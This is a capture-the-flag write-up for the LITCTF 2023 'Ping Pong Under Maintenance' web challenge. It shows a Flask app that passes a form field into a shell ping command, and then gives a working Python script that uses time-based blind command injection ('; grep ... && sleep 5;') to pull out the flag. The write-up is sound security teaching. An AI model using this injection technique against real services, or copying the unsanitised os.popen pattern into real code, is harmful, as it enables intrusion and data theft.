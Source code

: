 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
date: 2023-08-08 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_LITCTF
  - Web Exploitation
  - OS command injection
---
```


## Overview

* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_LITCTF/attached/ping-pong-under-maintenance.zip)

This is ```pingpong.py``` file

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```sh
grep "LIT" flag.txt && sleep 5;
```

- If the command ```grep "LIT" flag.txt``` finds the string ```"LIT"``` in ```flag.txt```, then the second command, ```sleep 5```, will be executed. This causes a delay before the response is returned.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)
```

The flag is
```
LITCTF{c4refu1_fr}
```